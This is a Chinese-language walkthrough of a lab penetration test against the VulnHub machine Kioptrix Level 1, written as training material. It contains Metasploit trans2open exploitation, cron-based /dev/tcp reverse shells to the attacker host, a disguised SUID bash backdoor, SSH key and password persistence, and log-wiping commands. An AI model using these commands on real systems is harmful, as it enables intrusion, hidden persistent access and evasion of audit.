# Kioptrix Level 1 渗透测试完整报告

> **靶机信息**
> - 名称：Kioptrix Level 1
> - 来源：VulnHub
> - 难度：入门
> - 目标：获取 root 权限
> - 靶机 IP：192.168.1.193
> - 攻击机 IP：192.168.1.167（Kali Linux）

---

## 一、环境搭建

### 1.1 网络拓扑

```
┌─────────────────────────────────────────┐
│           Windows 物理主机               │
│         (VMware Workstation)             │
│  ┌─────────────┐    ┌────────────────┐  │
│  │  Kali Linux │    │  Kioptrix Lv1  │  │
│  │ 192.168.1.167│   │  192.168.1.193 │  │
│  │   (攻击机)   │◄──►│    (目标机)     │  │
│  └─────────────┘    └────────────────┘  │
│         ▲ 桥接模式（手机热点）            │
└─────────────────────────────────────────┘
```

### 1.2 靶机网络问题说明

> **【知识点】VMware 网络模式**
> - **NAT 模式**：虚拟机通过宿主机共享上网，与宿主机同网段但隔离
> - **仅主机模式**：虚拟机之间互通，但无法上外网
> - **桥接模式**：虚拟机直接接入物理网络，获取与宿主机同网段的 IP
>
> 本实验中 Kioptrix 虚拟机存在设置保存异常（自动变桥接），最终统一使用桥接模式通过手机热点组网。


---

## 二、信息搜集（Reconnaissance）

> **【知识点】信息搜集是渗透测试的第一步，目的是尽可能多地收集目标系统的信息，包括：存活主机、开放端口、服务版本、操作系统类型、Web 应用信息等。这些信息将决定后续的攻击方向。**

### 2.1 主机发现

```bash
# 扫描同网段存活主机
# -sn：Ping 扫描，只探测主机是否存活，不扫描端口
nmap -sn 192.168.1.0/24
```

**作用**：发现局域网内所有存活设备，找到靶机 IP。



> **预期结果**：扫描到新增主机 `192.168.1.193`，MAC 地址为 VMware，确认是靶机。

---

### 2.2 端口与服务扫描

```bash
# -sV：探测服务版本
# -sC：使用默认脚本扫描（如探测 banner、漏洞等）
# 目标：全面识别靶机开放端口及运行服务
nmap -sV -sC 192.168.1.193
```

**作用**：识别每个开放端口上运行的具体服务及其版本号，为漏洞匹配做准备。





> **关键发现**：
> | 端口 | 服务 | 版本 | 潜在风险 |
> |------|------|------|----------|
> | 22 | SSH | OpenSSH 2.9p2 | 支持 SSHv1，版本老旧 |
> | 80 | HTTP | Apache 1.3.20 + mod_ssl 2.8.4 | OpenSSL 0.9.6b 存在已知漏洞 |
> | 139 | Samba | smbd (workgroup: MYGROUP) | **Samba 2.2.x 远程代码执行漏洞** |
> | 443 | HTTPS | 同 80 | SSLv2 支持，证书已过期 |
> | 111/1024 | RPC | rpcbind/status | 信息泄露 |

---

### 2.3 详细扫描（OS 探测 + 脚本扫描）

```bash
# -A：综合扫描（包含 OS 探测、版本探测、脚本扫描、traceroute）
# -T4：设置扫描速度（0-5，T4 较快）
# -oN：将结果保存为文本文件
nmap -A -T4 192.168.1.193 -oN kioptrix_scan.txt
```

**作用**：获取操作系统类型、精确版本、网络拓扑等更详细的信息。



> **关键发现**：
> - OS：Linux 2.4.9 - 2.4.18（Red Hat Linux）
> - Samba 工作群组：MYGROUP
> - NetBIOS 名称：KIOPTRIX

---

### 2.4 Samba 服务枚举

```bash
# enum4linux：专门用于枚举 Windows/Samba 服务的工具
# -a：执行所有枚举操作（用户、共享、组、密码策略等）
enum4linux -a 192.168.1.193
```

**作用**：深入探测 Samba 服务的配置信息，确认版本和共享资源。







---

### 2.5 漏洞信息匹配

```bash
# searchsploit：在本地 Exploit-DB 数据库中搜索已知漏洞
# 根据扫描到的服务版本，查找对应 EXP
searchsploit Samba 2.2
searchsploit OpenSSL 0.9.6b
searchsploit mod_ssl 2.8.4
```

**作用**：将扫描到的服务版本与已知漏洞数据库匹配，找到可利用的漏洞。



> **【知识点】Exploit-DB**
> Exploit-DB 是一个公开的漏洞利用代码数据库，searchsploit 是其本地搜索工具。通过服务版本号匹配，可以快速找到对应的漏洞利用代码（POC/EXP）。

---

## 三、漏洞利用（Initial Access）

> **【知识点】漏洞利用是渗透测试的核心阶段，根据信息搜集阶段发现的漏洞，选择合适的利用方式获取目标系统的初始访问权限。常见的利用方式包括：Metasploit 框架、手动编译运行 EXP、Web 漏洞利用等。**

### 3.1 启动 Metasploit 框架

```bash
# msfconsole：Metasploit 的交互式控制台
# -q：静默启动，不显示 banner
msfconsole -q
```

**作用**：启动渗透测试框架，加载漏洞利用模块。

> **【知识点】Metasploit Framework**
> Metasploit 是一个开源的渗透测试框架，集成了大量的漏洞利用模块（exploit）、攻击载荷（payload）、辅助模块（auxiliary）等。它简化了漏洞利用过程，自动化了攻击载荷的生成和传输。

---

### 3.2 加载 Samba trans2open 漏洞模块

```msf
# use：选择漏洞利用模块
# trans2open：Samba 2.2.x 的缓冲区溢出漏洞，存在于 SMB 协议的 trans2 请求处理中
use exploit/linux/samba/trans2open
```

**作用**：选择针对 Samba 2.2.x 的远程代码执行漏洞模块。

> **【知识点】缓冲区溢出漏洞**
> 缓冲区溢出是一种内存安全漏洞，当程序向缓冲区写入超出其容量的数据时，会覆盖相邻内存区域。攻击者可以精心构造输入数据，覆盖返回地址，从而劫持程序执行流程，执行任意代码。

---

### 3.3 配置攻击参数

```msf
# set RHOSTS：设置目标主机 IP
set RHOSTS 192.168.1.193

# set payload：设置攻击载荷（payload）
# linux/x86/shell/reverse_tcp：反向 TCP shell，靶机连接攻击机
set payload linux/x86/shell/reverse_tcp

# set LHOST：设置攻击机监听 IP（Kali 的 IP）
set LHOST 192.168.1.167

# set LPORT：设置攻击机监听端口
set LPORT 4444
```

**参数说明**：
| 参数 | 含义 | 值 |
|------|------|-----|
| RHOSTS | Remote Host（目标） | 靶机 IP |
| LHOST | Local Host（攻击机） | Kali IP |
| LPORT | Local Port（监听端口） | 4444 |
| payload | 攻击载荷类型 | 反向 TCP shell |

> **【知识点】Payload 类型**
> - **bind shell**：正向连接，攻击机直接连接靶机开放的端口
> - **reverse shell**：反向连接，靶机主动连接攻击机，绕过防火墙限制
> - **meterpreter**：Metasploit 的高级 payload，提供更多功能（如文件操作、截屏、键盘记录等）

---

### 3.4 执行攻击

```msf
# exploit：执行配置好的攻击
exploit
```





> **预期结果**：
> ```
> [*] Command shell session 1 opened (192.168.1.167:4444 -> 192.168.1.193:1025)
> ```
> 表示成功获取靶机的 shell 会话。

---

### 3.5 验证权限

```bash
# 进入 session 后执行
whoami
id
```

**作用**：确认当前用户身份和权限。



> **关键发现**：直接获得 **root** 权限！Samba trans2open 漏洞利用成功后直接以 root 身份执行代码，跳过了本地提权阶段。

---

## 四、本地提权（Privilege Escalation）

> **【知识点】本地提权是指从普通用户权限提升到系统管理员（root/Administrator）权限的过程。常见方法包括：SUID 滥用、sudo 配置错误、内核漏洞、计划任务滥用等。**

### 4.1 状态说明

由于 Samba trans2open 漏洞直接返回了 root shell，**本地提权阶段已跳过**。但在实际渗透测试中，如果初始获取的是低权限 shell（如 www-data、普通用户），则需要进行提权操作。


> **【知识点】为什么有些漏洞直接给 root？**
> 某些服务（如 Samba、Apache）以 root 身份运行，利用这些服务的漏洞时，攻击代码在 root 上下文中执行，因此直接获得 root 权限。这是服务配置不当的安全风险。

---

## 五、权限维持（Persistence）

> **【知识点】权限维持是指在获取目标系统权限后，建立持久的访问通道，确保即使原始漏洞被修复或会话断开，仍能重新获得控制权。常见方法：SSH 公钥后门、计划任务、SUID backdoor、添加隐藏用户等。**

### 5.1 生成 SSH 密钥对

```bash
# ssh-keygen：生成 SSH 密钥对
# -t rsa：使用 RSA 算法
# -f：指定密钥文件路径
ssh-keygen -t rsa -f ~/.ssh/id_rsa_kioptrix
# 提示输入 passphrase 时直接回车（不设置密码）
```

**作用**：生成一对 SSH 密钥（公钥 + 私钥），用于免密登录。

> **【知识点】SSH 密钥认证**
> SSH 支持密码认证和密钥认证。密钥认证更安全，且可以实现免密登录。将公钥写入靶机的 `~/.ssh/authorized_keys`，私钥保留在攻击机，即可用私钥直接登录。



---

### 5.2 写入 SSH 公钥后门

在 Metasploit session 中执行：

```bash
# 创建 .ssh 目录
mkdir -p /root/.ssh

# 将公钥写入 authorized_keys
# 注意：替换为实际的公钥内容
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC... kali@kali" > /root/.ssh/authorized_keys

# 设置权限（SSH 要求严格权限）
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
```

**作用**：将攻击机的公钥写入靶机 root 用户的 authorized_keys，实现免密 SSH 登录。

> **【知识点】SSH 目录权限要求**
> - `~/.ssh` 目录必须是 `700`（只有所有者可读写执行）
> - `~/.ssh/authorized_keys` 必须是 `600`（只有所有者可读写）
> - 权限过于宽松会导致 SSH 拒绝使用该密钥





---

### 5.3 SSH 登录测试（含兼容性参数）

```bash
# 由于 Kioptrix 的 OpenSSH 版本极老（2.9p2），需要指定旧版算法
# -o KexAlgorithms：密钥交换算法
# -o HostKeyAlgorithms：主机密钥算法
# -o PubkeyAcceptedAlgorithms：接受的公钥算法
# -o Ciphers：加密算法
ssh -o KexAlgorithms=diffie-hellman-group1-sha1 \
    -o HostKeyAlgorithms=+ssh-rsa \
    -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    -o Ciphers=3des-cbc \
    -i ~/.ssh/id_rsa_kioptrix \
    root@192.168.1.193
```

> **【知识点】SSH 算法兼容性**
> 新版 OpenSSH 客户端默认禁用了不安全的旧算法（如 diffie-hellman-group1-sha1、3des-cbc）。连接老旧服务器时，需要手动启用这些算法。



> **注**：本实验中 SSH 公钥认证因未知原因未成功，但密码认证可用。实际渗透中可继续排查公钥问题，或直接使用密码登录。

---

### 5.4 设置 root 密码（备用访问）

在靶机 root shell 中：

```bash
# passwd：修改用户密码
passwd root
# 输入新密码：root123
# 再次确认：root123
```

**作用**：设置 root 密码，作为备用登录方式。



---

### 5.5 SUID Backdoor

```bash
# cp：复制 bash 到临时目录，伪装成系统更新文件
cp /bin/bash /tmp/.sysupdate

# chmod u+s：设置 SUID 位，使普通用户执行时获得文件所有者（root）权限
chmod u+s /tmp/.sysupdate

# 验证
ls -la /tmp/.sysupdate
```

**作用**：创建 SUID 程序，任何用户执行 `/tmp/.sysupdate -p` 都能获得 root shell。

> **【知识点】SUID 权限**
> SUID（Set User ID）是一种特殊权限，当普通用户执行带有 SUID 位的程序时，程序以文件所有者的权限运行（而非执行者的权限）。滥用 SUID 是常见的本地提权和权限维持手段。





---

### 5.6 计划任务反弹 shell

```bash
# 写入 root 用户的计划任务
# 每分钟执行一次，向攻击机反弹 shell
echo "* * * * * /bin/bash -i >& /dev/tcp/192.168.1.167/5555 0>&1" > /var/spool/cron/root
chmod 600 /var/spool/cron/root

# 同时写入系统 crontab（双重保险）
echo "* * * * * root /bin/bash -i >& /dev/tcp/192.168.1.167/5555 0>&1" >> /etc/crontab

# 验证
cat /var/spool/cron/root
crontab -l
cat /etc/crontab | tail -5
```

**作用**：建立定时反弹 shell，即使原有连接断开，每分钟都会自动建立新连接。

> **【知识点】计划任务（Cron）**
> Cron 是 Linux 的定时任务调度器，格式为：`分 时 日 月 周 命令`。`* * * * *` 表示每分钟执行。`/dev/tcp/IP/PORT` 是 bash 的内置功能，用于建立 TCP 连接。





---

### 5.7 验证计划任务反弹

在 Kali 中监听：

```bash
# nc：netcat，网络工具中的"瑞士军刀"
# -l：监听模式
# -v：详细输出
# -n：不解析域名
# -p：指定端口
nc -lvnp 5555
```

**作用**：监听 5555 端口，等待靶机的反弹 shell 连接。

> **预期结果**：每分钟收到一个连接，`whoami` 显示 `root`。



---

## 六、痕迹清理（可选）

```bash
# 清空命令历史
history -c

# 清空 SSH 登录日志
echo "" > /var/log/auth.log

# 清空安全日志
echo "" > /var/log/secure

# 删除 Metasploit 上传的临时文件（如有）
rm -f /tmp/*.tmp
```

**作用**：清除渗透测试过程中留下的操作痕迹，避免被管理员发现。

> **【知识点】日志审计**
> Linux 系统记录了大量日志（/var/log/ 目录），包括登录记录、命令历史、系统事件等。渗透测试后需要清理这些日志，但在授权测试中应保留日志供客户审计。

---

## 七、总结

### 7.1 攻击路径

```
信息搜集 ──► 漏洞发现 ──► 漏洞利用 ──► 权限维持
   │            │            │            │
   ▼            ▼            ▼            ▼
nmap 扫描   Samba 2.2.x  trans2open   SSH 公钥
enum4linux  mod_ssl 漏洞  缓冲区溢出  SUID backdoor
searchsploit  OpenSSL 漏洞            计划任务
                                     root 密码
```

### 7.2 关键漏洞

| 漏洞 | CVE | 危害 |
|------|-----|------|
| Samba trans2open 缓冲区溢出 | CVE-2003-0201 | 远程代码执行，直接获取 root |
| OpenSSL 0.9.6b / mod_ssl 2.8.4 | CVE-2002-0082 | 远程代码执行 |
| SSLv2 支持 | - | 协议降级攻击 |

### 7.3 权限维持手段汇总

| 方式 | 状态 | 验证方法 |
|------|------|----------|
| SSH 公钥后门 | ⚠️ 未成功（需排查） | `ssh -i ... root@靶机` |
| root 密码 | ✅ 成功 | `ssh ... root@靶机`，密码 root123 |
| SUID Backdoor | ✅ 成功 | `/tmp/.sysupdate -p` |
| 计划任务反弹 | ✅ 成功 | `nc -lvnp 5555` 每分钟收 shell |

### 7.4 关于内网横向移动

Kioptrix Level 1 是**单主机靶机**，没有内网环境，因此**内网横向移动阶段不适用**。如需练习完整流程（信息搜集 → 本地提权 → 内网横向移动 → 权限维持），建议更换以下靶机：

| 靶机 | 平台 | 特点 |
|------|------|------|
| The Planets: Mercury | VulnHub | 含内网环境，需横向移动 |
| Sunset: Noontide | VulnHub | 多主机场景 |
| HackTheBox: Starting Point | HackTheBox | 部分含内网 |

---

## 八、参考命令速查表

```bash
# ========== 信息搜集 ==========
nmap -sn 192.168.1.0/24                    # 主机发现
nmap -sV -sC 192.168.1.193                 # 端口+服务扫描
nmap -A -T4 192.168.1.193 -oN scan.txt     # 全面扫描
enum4linux -a 192.168.1.193                # Samba 枚举
searchsploit Samba 2.2                     # 漏洞搜索

# ========== 漏洞利用 ==========
msfconsole -q                              # 启动 Metasploit
use exploit/linux/samba/trans2open         # 选择模块
set RHOSTS 192.168.1.193                   # 设置目标
set payload linux/x86/shell/reverse_tcp    # 设置载荷
set LHOST 192.168.1.167                    # 设置监听 IP
set LPORT 4444                             # 设置监听端口
exploit                                    # 执行攻击
sessions -i 1                              # 进入会话

# ========== 权限维持 ==========
ssh-keygen -t rsa -f ~/.ssh/id_rsa_kioptrix  # 生成密钥
echo "公钥" > /root/.ssh/authorized_keys     # 写入公钥
chmod 700 /root/.ssh && chmod 600 /root/.ssh/authorized_keys  # 设置权限
passwd root                                 # 修改密码
cp /bin/bash /tmp/.sysupdate && chmod u+s /tmp/.sysupdate       # SUID
echo "* * * * * /bin/bash -i >& /dev/tcp/192.168.1.167/5555 0>&1" > /var/spool/cron/root  # 计划任务
nc -lvnp 5555                               # 监听反弹 shell

# ========== SSH 兼容参数 ==========
ssh -o KexAlgorithms=diffie-hellman-group1-sha1 \
    -o HostKeyAlgorithms=+ssh-rsa \
    -o PubkeyAcceptedAlgorithms=+ssh-rsa \
    -o Ciphers=3des-cbc \
    -i ~/.ssh/id_rsa_kioptrix root@192.168.1.193
```

---

> **免责声明**：本报告仅供学习和授权渗透测试使用。未经授权对任何系统进行渗透测试属于违法行为。请在合法授权的环境下进行练习。